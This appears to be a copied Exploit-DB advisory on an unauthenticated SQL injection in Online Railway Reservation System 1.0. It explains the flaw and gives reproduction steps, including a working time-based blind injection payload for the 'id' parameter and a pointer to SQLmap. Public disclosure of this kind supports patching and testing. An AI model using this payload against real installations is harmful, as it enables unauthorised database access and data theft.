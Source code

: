 # Online Railway Reservation System 1.0 - 'id' SQL Injection (Unauthenticated)
origininal link: https://www.exploit-db.com/exploits/50646
```bash
# Exploit Title: Online Railway Reservation System 1.0 - 'id' SQL Injection (Unauthenticated)
# Date: 07/01/2022
# Exploit Author: twseptian
# Vendor Homepage: https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/orrs.zip
# Version: v1.0
# Tested on: Kali Linux 2021.4,PHP 7.4.26
```
## SQL Injection
SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to it's database. Online Railway Reservation System v1.0 is vulnerable to SQL injection via the 'id' parameter on the Reservation Form.

## Attack Vector
An attacker can compromise the database of the application using some automated(or manual) tools like SQLmap.

## Steps of reproduce:
- Step-1: Navigate to 'Schedule' > go to 'Book' or 'Revervation Form' page using the following URL: http://localhost/orrs/?page=reserve&sid=1
- Step-2: Put the SQL Injection payloads in 'id' field. In this we used time-based blind payload: `/orrs/?page=reserve&sid=1') AND (SELECT 6842 FROM (SELECT(SLEEP(5)))UsWr) AND ('WBCm'='WBCm`
- Step-3: Now, the Server target accepted our payload and the response got delayed by 5 seconds.

